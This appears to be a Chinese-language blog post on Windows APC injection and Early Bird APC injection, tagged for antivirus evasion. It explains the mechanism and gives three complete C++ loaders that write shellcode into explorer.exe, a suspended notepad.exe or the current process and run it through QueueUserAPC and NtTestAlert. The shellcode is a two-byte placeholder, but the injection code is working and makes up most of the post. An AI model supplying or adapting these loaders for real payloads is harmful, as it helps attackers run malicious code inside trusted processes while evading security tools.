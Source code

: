 ```yaml
---
layout: post
title: APC Inject
categories: Inject
description: Inject 之 APC
keywords: Windows，注入，免杀
---
```


APC注入技术

# APC Inject

## 原理

APC是一个简称，即“异步过程调用”。APC 注入的原理是利用当线程被唤醒时，APC 中的注册函数会被执行，并以此去执行 DLL 的加载代码，进而完成 DLL 注入的目的。在线程下一次被调度的时候，就会执行 APC 函数，APC 有两种形式，由系统产生的 APC 称为内核模式 APC，由应用程序产生的 APC 被称为用户模式 APC。

## 实现流程

1. 当某个线程执行到 Sleep 或 WaitForSingleObject 时，系统就会产生一个软中断。
2. 当线程再次被唤醒时，此线程会首先执行 APC 队列中的被注册的函数。
3. 利用 QueueUserAPC 可以在软中断时向线程的 APC 队列插入一个函数指针。

## 缺点

当用户模式 APC 队列时，除非线程处于可警报状态，否则不会定向线程调用 APC 函数。

线程处于可警报状态后，线程将按先进先出 （FIFO） 顺序处理所有挂起的 APC，等待操作将返回WAIT_IO_COMPLETION。

线程通过使用 SleepEx 函数、SignalObjectAndWait 函数、WaitForSingleObjectEx 函数、WaitForMultipleObjectsEx 函数或 MsgWaitForMultipleObjectsEx 函数进入可报警状态。

[QueueUserAPC function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

## 完整代码

### 1.OpenProcess 注入 explorer

```c++
#include "pch.h"
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char shellcode[] =
			"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hThreadHandle;
	HANDLE	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	PROCESSENTRY32	processEntry	= { sizeof(PROCESSENTRY32) };
	THREADENTRY32	threadEntry		= { sizeof(THREADENTRY32) };
	std::vector<DWORD> vThreadIds;
	SIZE_T ShellcodeSize = sizeof(shellcode);
	
	// 查找 explorer.exe 进程 ID
	if (Process32First(hSnapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(hSnapshot, &processEntry);
		}
	}

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	// 在 explorer.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcessHandle, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, shellAddress, shellcode, ShellcodeSize, NULL);

	// 查找 explorer.exe 所有线程
	if (Thread32First(hSnapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				vThreadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(hSnapshot, &threadEntry));
	}

	for (DWORD dThreadId : vThreadIds) {
		// 根据线程 Tid，打开线程句柄
		hThreadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, dThreadId);
		// 给 APC 队列中插入回调函数
		// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
		QueueUserAPC((PAPCFUNC)apcRoutine, hThreadHandle, NULL);
		Sleep(1000 * 3);
	}

	return 0;
}
```

### 2.CreateProcess 注入 notepad

```
#include <Windows.h>
int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";
	SIZE_T ShellcodeSize = sizeof(shellcode);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	// 以挂起状态创建 notepad.exe
	CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	// 在 notepad.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcess, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcess, shellAddress, shellcode, ShellcodeSize, NULL);

	// 给 APC 队列中插入回调函数
	// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
	QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);

	// 恢复线程
	ResumeThread(hThread);

	return 0;
}
```



# Early Bird APC Inject

## 原理

由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，NtTestAlert 是一个检查当前线程的 APC 队列的函数，如果有任何队列作业，它会清空队列。当线程启动时，NtTestAlert 会首先被调用。因此，如果在线程的开始状态下对 APC 进行操作，调用 NtTestAlert 函数就可以确保执行我们的 shellcode。

## 实现流程

1. 在当前进程中分配一块内存空间
2. 往申请的空间内写入 shellcode
3. 将 APC 插入到当前线程
4. 调用 NtTestAlert

## 完整代码

```c++
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T ShellcodeSize = sizeof(shellcode);
	// 分配内存
	LPVOID shellAddress = VirtualAlloc(NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(GetCurrentProcess(), shellAddress, shellcode, ShellcodeSize, NULL);

	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 给 APC 队列中插入回调函数
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	// 调用 NtTestAlert 函数检查当前线程的 APC 队列，如果有任何队列作业，清空队列，执行 shellcode
	testAlert();

	return 0;
}
```

